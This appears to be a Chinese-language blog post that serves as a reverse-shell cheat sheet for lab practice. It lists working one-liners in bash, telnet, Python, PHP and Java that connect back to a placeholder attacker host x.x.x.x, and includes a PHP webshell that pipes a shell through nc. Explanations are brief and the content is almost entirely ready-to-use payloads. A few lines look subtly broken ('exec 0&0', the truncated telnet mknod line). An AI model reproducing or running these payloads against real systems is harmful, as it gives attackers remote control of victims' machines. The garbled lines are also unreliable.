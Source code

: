 ```yaml
---
layout: post
title: 反弹WebShell
subtitle: 反弹WebShell
date: 2023-08-02 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
---
```

### bash

```shell
# 攻击机
nc -lvvp port
# 目标机
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

```shell
# 方法2
exec 0&0 2>&0

0<&196;exec 196<>/dev/tcp/x.x.x.x/4444; sh <&196 >&196 2>&196

/bin/bash  -i > /dev/tcp/x.x.x.x/8080 0<&1 2>&1

# 方法3
exec 5<>/dev/tcp/x.x.x.x/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

* **bash -i**  打开一个交互的bash
* **>&**  将标准错误输出重定向到标准输出
* **/dev/tcp/x.x.x.x/port**  意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
* **0>&1**  标准输入重定向到标准输出，实现你与反弹出来的shell的交互

**/dev/tcp/** 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

|                |                    |
| -------------- | ------------------ |
| 标准输入 (stdin)   | 代码为 0 ，使用 < 或 <<   |
| 标准输出 (stdout)  | 代码为 1 ，使用 > 或 >>   |
| 标准错误输出(stderr) | 代码为 2 ，使用 2> 或 2>> |

### Telnet

```shell
# 攻击机打开两个终端开启两个端口，分别用来输入和输出
nc -lvvp 4444
nc -lvvp 5555
# 目标主机
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

```shell
# 方法2
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### PHP

```php
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 4444 >/tmp/f');?>
```

### JAVA

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
